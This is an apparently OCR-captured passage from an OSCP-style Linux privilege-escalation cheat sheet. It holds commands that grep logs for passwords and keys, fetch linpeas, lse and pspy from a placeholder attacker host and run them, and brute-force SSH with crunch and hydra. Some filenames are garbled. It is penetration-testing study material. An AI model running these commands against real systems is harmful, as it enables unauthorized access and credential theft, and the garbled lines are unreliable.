 ```shell
cat /path/to/log | grep -E "password|key|error"
ps aux | grep debug

```

## _**Auto**_

### **linpeas.sh / lse.sh**

```shell
# linpeas / lse
wget http://KALI_IP/linuxlinpeash.sh
wget http://KALI_IP/linux/lse.sh
# chmod u+x the scripts and run

# pspy
wget http://KALI_IP/linux/rpspy64.py
./pspy64 -r /bin,/etc,/home,/opt,/var,/usr,/tmp -pf -i 1000
# https://github.com/DominicBreuker/pspy
# https://systemweakness.com/6-vs-1-battle-my-oscp-strategy-dd23cc0e912b 
```

### pspy (hidden crons)

```shell
# 1 check daemon is running (if you cant find any crons in /etc/crontab or /etc/cron*)
ps -efw | grep -i "cron"

# 2 If running, run pspy64
cd /dev/shm
curl http://KALI_IP/linux/pspy64 -o pspy64
chmod +x ./pspy64
./pspy64
```

## _**Attacks**_

### su

```
su SOMEUSER
```

### bruteforce user

```shell
# min 6 max 6 length password pattern
crunch 6 6 -t Lab%%% > wordlist
hydra -l eve -P wordlist  192.168.50.214 -t 4 ssh -V
```

### writeble /etc/passwd

